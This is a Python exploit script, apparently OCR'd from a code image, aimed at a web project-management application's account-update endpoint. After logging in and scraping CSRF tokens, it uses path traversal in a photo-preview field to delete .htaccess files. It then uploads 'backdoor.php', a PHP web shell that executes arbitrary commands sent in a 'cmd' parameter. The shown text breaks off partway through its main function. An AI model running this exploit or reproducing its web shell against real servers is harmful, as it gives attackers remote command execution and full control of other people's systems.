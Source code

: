     #!/usr/bin/python3
    
    import sys
    import requests
    from lxml import html
    from argparse import ArgumentParser
    
    session_requests = requests.session()
    
    def multifrm(userid, username, csrftoken_, EMAIL, HOSTNAME, uservar):
        request_1 = {
            'sf_method': (None, 'put'),
            'users[id]': (None, userid[-1]),
            'users[photo_preview]': (None, uservar),
            'users[_csrf_token]': (None, csrftoken_[-1]),
            'users[name]': (None, username[-1]),
            'users[new_password]': (None, ''),
            'users[email]': (None, EMAIL),
            'extra_fields[9]': (None, ''),
            'users[remove_photo]': (None, '1'),
            }
        return request_1
    
    
    def req(userid, username, csrftoken_, EMAIL, HOSTNAME):
        request_1 = multifrm(userid, username, csrftoken_, EMAIL, HOSTNAME,
    '.htaccess')
        new = session_requests.post(HOSTNAME + 'index.php/myAccount/update',
    files=request_1)
        request_2 = multifrm(userid, username, csrftoken_, EMAIL, HOSTNAME,
    '../.htaccess')
        new1 = session_requests.post(HOSTNAME + 'index.php/myAccount/update',
    files=request_2)
        request_3 = {
            'sf_method': (None, 'put'),
            'users[id]': (None, userid[-1]),
            'users[photo_preview]': (None, ''),
            'users[_csrf_token]': (None, csrftoken_[-1]),
            'users[name]': (None, username[-1]),
            'users[new_password]': (None, ''),
            'users[email]': (None, EMAIL),
            'extra_fields[9]': (None, ''),
            'users[photo]': ('backdoor.php','<?php if(isset($_REQUEST[\'cmd\'])){ echo"<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }?>', 'application/octet-stream')
            }
        upload_req = session_requests.post(HOSTNAME +
    'index.php/myAccount/update', files=request_3)
    
    
    def main(HOSTNAME, EMAIL, PASSWORD):
        url = HOSTNAME + '/index.php/login'
        result = session_requests.get(url)
        #print(result.text)
        login_tree = html.fromstring(result.text)
        authenticity_token =list(set(login_tree.xpath("//input[@name='login[_csrf_token]']/@value")))[0]
        payload = {'login[email]': EMAIL, 'login[password]': PASSWORD,'login[_csrf_token]': authenticity_token}
        result = session_requests.post(HOSTNAME + '/index.php/login',data=payload, headers=dict(referer=HOSTNAME + '/index.php/login'))
        # The designated admin account does not have a myAccount page
        account_page = session_requests.get(HOSTNAME + 'index.php/myAccount')
        account_tree = html.fromstring(account_page.content)
        userid = account_tree.xpath("//input[@name='users[id]']/@value")
        username = account_tree.xpath("//input[@name='users[name]']/@value")